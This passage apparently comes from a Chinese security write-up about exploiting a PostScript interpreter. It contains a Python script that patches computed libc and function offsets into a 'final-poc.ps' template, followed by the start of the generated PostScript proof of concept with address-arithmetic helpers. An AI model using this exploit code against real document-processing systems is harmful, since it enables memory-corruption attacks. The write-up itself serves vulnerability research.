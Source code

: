 ```plain
print("Offset from .init start addr to f_addr_s_std_noseek: 0x{:x} == {:d}".format(f_addr_s_std_noseek_offset, f_addr_s_std_noseek_offset))

with open("final-poc.ps.template", "r") as f:
    final_file = f.read().strip()

final_file = final_file.replace("F_ADDR_S_STD_NOSEEK_OFFSET", str(f_addr_s_std_noseek_offset))
final_file = final_file.replace("LIBC_PLT_OFFSET", str(libc_plt_offset))

with open("final-poc.ps", "w") as f:
    f.write(final_file)

print("Now try to upload the final-poc.ps")
```

[![](assets/1706771701-58d1dff84806f03822dfc0a14107975a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129202654-afe41c04-bea1-1.png)

生成poc如下

```plain
10000000 setvmthreshold
% (a) (b) -> (ab) 
/concatstrings { exch dup length 
 2 index length add string 
 dup dup 4 2 roll copy length
 4 -1 roll putinterval
} bind def

% (aabb) -> (bbaa)
/reverse{
 /str exch def
 /temp str 0 get def
 /i 0 def
 str length 2 idiv{
  /temp str i get def
  str i str str length i sub 1 sub get put
  str str length i sub 1 sub temp put
  /i i 1 add def
 }repeat
 str 
}def
%offset addr -> addr+offset
/addOffset{
 exch (16#) exch concatstrings
 cvi
 add
 16 16 string cvrs
}def
% addr offset -> addr-offset
/subOffset{
 exch (16#) exch concatstrings
 cvi
```
